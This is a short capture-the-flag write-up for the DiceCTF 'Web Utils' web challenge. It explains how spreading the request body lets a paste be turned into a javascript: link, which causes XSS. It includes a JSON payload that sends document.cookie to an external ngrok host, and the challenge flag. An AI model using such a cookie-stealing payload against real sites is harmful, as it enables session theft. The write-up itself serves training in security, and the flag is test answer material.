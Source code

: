 Web Utils
===
**Category**: Web

**Points**: 121 (131 solves)

**Author**: BrownieInMotion, Jim
### Description
- My friend made this dumb tool; can you try and steal his cookies? If you send me a link, I can pass it along.
- Site: `https://web-utils.dicec.tf/`
- Source: `app.zip`
### Solution
- In file `api.js` we can see in `createPaste` and `createLink` all appear `...req.body`. Let's try to debug with `...`
![image](https://user-images.githubusercontent.com/54855855/107367846-5daaf380-6b12-11eb-9ae6-b28524488ea9.png)
So we need can pass arguments as desired and we can see type = `link` can trigger xss by `javascript:`![image](https://user-images.githubusercontent.com/54855855/107368131-bf6b5d80-6b12-11eb-9a6a-aa5d814c4c1f.png)
### Payload
```
{
"data":"javascript:fetch('http://9127bf181722.ngrok.io/?a'+document.cookie)",
"type":"link"
}
```
### Flag
`dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}`
